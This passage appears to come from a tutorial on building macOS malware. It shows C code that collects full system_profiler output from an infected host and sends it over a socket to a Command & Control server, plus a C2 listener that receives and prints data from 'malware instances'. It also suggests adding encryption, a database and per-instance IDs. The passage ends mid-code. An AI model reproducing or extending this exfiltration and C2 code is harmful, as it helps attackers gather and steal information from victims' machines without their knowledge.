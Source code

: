 ```c
void system_profiler(int sockfd) {
  FILE * fp;
  char buffer[BUF_SIZE];

  // Execute
  fp = popen("/usr/sbin/system_profiler -nospawn -detailLevel full", "r");
  if (fp == NULL) {
    send_error("Failed");
    return;
  }

  // Read command output and send over to C2 
  while (fgets(buffer, BUF_SIZE, fp) != NULL) {
    send_data(sockfd, buffer);
  }

  pclose(fp);
}
```

This command alone saves the trouble and provides all the information about a host that an attacker can gather. However, the catch is that such commands are visible and can be easily flagged. Despite this, it remains an easy and effective method for malware to extract details from the infected host.

Alright, so how do we transmit the data? We use `socket`. This API allows us to send data to the connected endpoint, which in this case is the Command & Control server. Data is sent in the form of strings. To ensure that the data is properly formatted and transmitted over the socket to the C2 server, we rely on functions like `send()` for sending data, and file I/O functions such as `popen()` and `fgets()` for reliable reading and sending of data. It's pretty simple.

The C2 server is also straightforward, designed solely for handling incoming connections. It won't have any protection mechanisms to hide itself from the system where it's running, but this server is basic for demonstration purposes only. I recommend implementing encryption, setting up a database to organize data, and generating a temporary ID to associate with each instance.

The extraction module (ext) starts an autonomous thread listening for incoming connections from malware instances. Once connected, the module simply prints the content of the incoming connection (which is the information extracted by the client) to the standard output. 

```c
// The server will keep listening for incoming connections indefinitely
while (1) {
    // Accept a new connection from a client
    cltlen = sizeof(cltaddr);
    cltfd = accept(dexft_fd, (struct sockaddr *) &cltaddr, &cltlen);

    // Check if the accept call was successful
    if (cltfd < 0) {
        // If accept failed, print an error message and continue listening
        printf("Failed to accept incoming connection, %d\n", cltfd);
        continue;
    }

    // Print out information about the connected client
    printf("Collecting data from client %s:%d...\n", inet_ntoa(cltaddr.sin_addr), ntohs(cltaddr.sin_port));

    // Receive data from the client and process it
    while ((br = recv(cltfd, buf, BUF_SIZE, 0)) > 0) {
        // Write the received data to the standard output
        fwrite(buf, 1, br, stdout);
    }

    // Check if an error occurred during data reception
```